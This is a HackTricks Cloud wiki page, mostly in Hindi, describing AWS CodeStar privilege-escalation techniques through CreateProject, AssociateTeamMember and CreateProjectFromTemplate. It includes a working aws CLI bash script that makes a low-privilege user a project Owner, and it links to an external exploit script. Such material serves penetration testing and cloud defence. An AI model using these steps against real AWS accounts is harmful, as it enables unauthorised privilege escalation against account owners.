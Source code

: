 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

आपको कोडस्टार के बारे में अधिक जानकारी मिल सकती है:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

इन अनुमतियों के साथ आप **कोडस्टार IAM भूमिका** का **दुरुपयोग** कर सकते हैं ताकि **मनमाने कार्य** को **क्लाउडफॉर्मेशन टेम्पलेट** के माध्यम से किया जा सके। निम्नलिखित पृष्ठ की जांच करें:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

यह तकनीक `codestar:CreateProject` का उपयोग करके एक कोडस्टार प्रोजेक्ट बनाती है, और `codestar:AssociateTeamMember` का उपयोग करके एक IAM उपयोगकर्ता को एक नए CodeStar **प्रोजेक्ट** का **स्वामी** बनाती है, जो उन्हें **कुछ अतिरिक्त अनुमतियों के साथ एक नई नीति** प्रदान करेगा।
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
यदि आप पहले से ही **प्रोजेक्ट के सदस्य** हैं, तो आप अनुमति **`codestar:UpdateTeamMember`** का उपयोग करके **अपनी भूमिका** को मालिक में अपडेट कर सकते हैं, इसके बजाय **`codestar:AssociateTeamMember`** के।

**संभावित प्रभाव:** codestar नीति में प्रिवेस्क। आप उस नीति का एक उदाहरण यहाँ पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **एक नया प्रोजेक्ट बनाएं:**
* एक नए प्रोजेक्ट के निर्माण को प्रारंभ करने के लिए **`codestar:CreateProjectFromTemplate`** क्रिया का उपयोग करें।
* सफल निर्माण पर, **`cloudformation:UpdateStack`** के लिए स्वचालित रूप से पहुंच प्रदान की जाती है।
* यह पहुंच विशेष रूप से `CodeStarWorker-<generic project name>-CloudFormation` IAM भूमिका से संबंधित एक स्टैक को लक्षित करती है।
2. **लक्षित स्टैक को अपडेट करें:**
* प्रदान की गई CloudFormation अनुमतियों के साथ, निर्दिष्ट स्टैक को अपडेट करने के लिए आगे बढ़ें।
* स्टैक का नाम आमतौर पर दो पैटर्न में से एक के अनुसार होगा:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* सटीक नाम चुने गए टेम्पलेट पर निर्भर करता है (उदाहरण शोषण स्क्रिप्ट का संदर्भ)।
3. **पहुँच और अनुमतियाँ:**
* अपडेट के बाद, आपको स्टैक से जुड़े **CloudFormation IAM भूमिका** के लिए निर्धारित क्षमताएँ प्राप्त होती हैं।
* नोट: यह स्वाभाविक रूप से पूर्ण व्यवस्थापक विशेषाधिकार प्रदान नहीं करता है। विशेषाधिकारों को और बढ़ाने के लिए वातावरण में अतिरिक्त गलत कॉन्फ़िगर किए गए संसाधनों की आवश्यकता हो सकती है।

अधिक जानकारी के लिए मूल शोध देखें: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
आप शोषण को यहाँ पा सकते हैं [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**संभावित प्रभाव:** cloudformation IAM भूमिका में प्रिवेस्क।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
